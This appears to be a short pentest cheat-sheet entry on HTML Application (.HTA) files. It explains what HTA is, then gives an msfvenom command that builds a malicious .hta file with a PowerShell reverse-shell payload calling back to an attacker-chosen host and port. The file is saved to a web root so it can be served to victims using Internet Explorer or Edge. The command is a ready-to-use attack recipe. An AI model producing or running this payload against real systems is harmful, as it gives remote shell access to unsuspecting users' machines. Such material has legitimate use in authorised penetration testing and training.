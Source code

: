 # HTML Applications

> .HTA File Extension. Program that can be run from an HTML document; an executable file that contains hypertext code and may also contain VBScript or JScript code; can be created by simply changing the file extension of an .HTM file to an ".HTA" extension; run by the Microsoft HTML Application Host (Mshta.exe).

We can use msfvneom in order to create a malicious .hta file which we can later serve it to clients to establish reverse shells using powershell. **Note that this only works on Internet Explorer or Microsoft Edge**:

```bash
#-f: Output file is HTA to Powershell.
msfvenom -p windows/shell_reverse_tcp LHOST=$IPADDRESS LPORT=$PORT -f hta-psh -o /var/www/html/$FILENAME.hta
```
